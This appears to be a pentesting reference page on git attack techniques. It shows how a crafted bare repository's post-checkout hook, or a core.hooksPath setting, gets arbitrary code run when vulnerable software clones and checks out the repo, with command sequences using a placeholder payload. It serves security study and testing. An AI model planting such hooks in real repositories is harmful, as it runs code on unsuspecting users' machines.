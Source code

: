 # git

## Abusing bare repositories

You can use bare repositories to deliver custom git hooks and execute arbitrary code. For instance, if the vulnerable code executes the following bash commands:

```bash
$ git clone -- "<REPO>" "target_directory"
$ cd "target_directory"
$ git checkout "subproject"
```

You can create a repo with the `subproject` folder, which is a bare repository with a payload in the post checkout hook:

```bash
$ git clone "<REPO>" target_directory
$ cd target_directory
$ mkdir subproject
$ cd subproject
$ git init --bare
$ echo "#!/bin/sh" > hooks/post-checkout
$ echo "echo 'arbitrary code here'" >> hooks/post-checkout
$ # commit and push
```

References:
- [Writeup: 4 Google Cloud Shell bugs explained – bug #3](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-bug-3/)
- [githooks docs](https://git-scm.com/docs/githooks)

## git-clone

{% embed url="https://git-scm.com/docs/git-clone" %}

### --config

Set a configuration variable in the newly-created repository; this takes effect immediately after the repository is initialized, but before the remote history is fetched or any files checked out.

#### core.hooksPath

`core.hooksPath` sets different path to hooks. You can create the post checkout hook within a repository, set the path to hooks with the `hooksPath`, and execute arbitrary code.

```bash
$ git clone "<REPO>" target_directory
$ cd target_directory
$ mkdir hooks
$ echo "#!/bin/sh" > hooks/post-checkout
$ echo "echo 'arbitrary code here'" >> hooks/post-checkout
$ # commit and push
```
